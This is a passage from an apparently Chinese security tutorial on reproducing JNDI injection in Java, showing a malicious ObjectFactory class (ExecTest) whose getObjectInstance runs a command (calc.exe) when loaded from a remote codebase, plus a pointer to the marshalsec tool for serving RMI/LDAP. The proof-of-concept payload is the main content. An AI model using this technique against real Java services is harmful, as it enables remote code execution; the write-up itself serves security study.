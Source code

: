 	    }
	    //实例化我们的恶意class文件
	    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
	}

实例化会默认调用构造方法、静态代码块。  
上面的例子就是调用了构造方法完成任意代码执行。

但是可以注意到之前执行任意命令成功，但是报错退出了，我们修改我们的恶意class文件，换一个命令执行点`factory.getObjectInstance`复写该函数执行命令。

1.  报错是因为我们的类在实例化后不能转化为ObjectFactory`(ObjectFactory) clas.newInstance()`。只需要我们的类继承该类即可。
2.  根据ObjectFactory.java的getObjectInstance接口复写函数
    
    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                 Hashtable<?,?> environment)
     throws Exception;
    

最终第二版ExecTest如下：

	import javax.naming.Context;
	import javax.naming.Name;
	import javax.naming.spi.ObjectFactory;
	import java.io.IOException;
	import java.util.Hashtable;

	public class ExecTest implements ObjectFactory {

	    @Override
	    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
		exec("xterm");
		return null;
	    }

	    public static String exec(String cmd) {
		try {
		    Runtime.getRuntime().exec("calc.exe");
		} catch (IOException e) {
		    e.printStackTrace();
		}
		return "";
	    }

	    public static void main(String[] args) {
		exec("123");
	    }
	}

[![](http://ww1.sinaimg.cn/large/006iKNp3ly1g897awcgtkj31iy0x5wmt.jpg)](http://ww1.sinaimg.cn/large/006iKNp3ly1g897awcgtkj31iy0x5wmt.jpg)

> 此外，1.8编译的ExecTest.java在1.7受害者环境中也可以运行，看来简单代码，版本差距不大应该没事。

## 使用工具起rmi ldap服务

以上我们就成功复现了JNDI注入，但是在常规使用中我们自己起rmi服务器太麻烦了。  
我们使用[marshalsec反序列化工具](https://github.com/mbechler/marshalsec)起rmi、ldap服务

